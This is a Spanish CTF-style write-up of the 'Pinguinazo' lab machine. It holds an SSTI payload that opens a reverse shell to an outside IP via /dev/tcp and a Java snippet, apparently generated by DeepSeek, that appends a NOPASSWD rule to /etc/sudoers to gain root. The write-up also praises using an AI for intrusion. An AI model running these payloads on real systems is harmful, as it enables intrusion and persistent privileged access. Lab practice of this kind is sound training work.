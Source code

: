 ```yaml
---
title: Pinguinazo
excerpt: Pinguinazo
publishDate: 'Oct 26 2025'
tags:
  - pinguinazo
seo:
  image:
    src: '/pinguino.png'
    alt: Imagen creada con Chat GPT
---
```


![Pinguino](/pinguino.png)

***Resumen***: Este es un Writeup un poco más directo que los que leí y que muestra como la IA puede ayudarnos en un proceso de intrusión.

***Nota***: Se ha usado [DeepSeek](https://Deepseek.com)

## Escaneo

Commo siempre escaneamos la máquina a ver que puertos, servicios y versiones tiene abiertos. Para ello usamos nuestro querido Nmap.

```bash
sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 172.17.0.2 -oN pinguinazo.txt 
````

[![5000](/5000_pinguinazo.png)](/5000_pinguinazo.png)

Vemos que tenemos el puerto 5000 abierto, así que vamos a visitarlo.

[![ssti](/ssti_pinguinazo.png)](/ssti_pinguinazo.png)

## Intrusión

Nos encontramos con un panel de registroque, después de unas pruebas tipo {{2*2}} nos muestra que es vulenrable a SSTI. Ponemos nuestro nc a escuchar en el puerto 443 y en la web insertamos la siguiente reverse shell y deberíamos estár dentro de la máquina como el usuario pinguinazo.

```bash
 {{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "sh -i >& /dev/tcp/192.168.1.42/443 0>&1"').read() }}
 ```

 [![reverse](/reverse_pinguinazo.png)](/reverse_pinguinazo.png)
 [![dentro](/dentro_pinguinazo.png)](/dentro_pinguinazo.png)

## Escalada

La escalada en esta máquina es muy fácil, tan solo hay que abusar de SUDO y generar un código en java que podamos ejecutar y que nos de los permisos de root.

```bash
sudo -l
```

Como vemos podemos usar java.

[![java](/java_pinguinazo.png)](/java_pinguinazo.png)

Copiamos esta salida a Deepseek y nos da un código que solo tenemos que compilar y ejecutar y ya seremos root.

 [![deep](/deep_pinguinazo.png)](/deep_pinguinazo.png)

 ```bash
 // E.java
public class E {
public static void main(String[] a) throws Exception {
    // Comando más simple
    Process p = Runtime.getRuntime().exec(new String[]{
        "sh", "-c", "echo pinguinazo ALL=\\(ALL\\) NOPASSWD:ALL >> /etc/sudoers"
    });
    int exitCode = p.waitFor();
    System.out.println("Completado. Código de salida: " + exitCode);
    }
}
````
Este código debe ir dentro de una archivo.

Ahora solo compilarlo y ejecutarlo.

```bash
javac E.java
sudo java E
````

![root(/root_pinguinazo.png)](/root_pinguinazo.png)
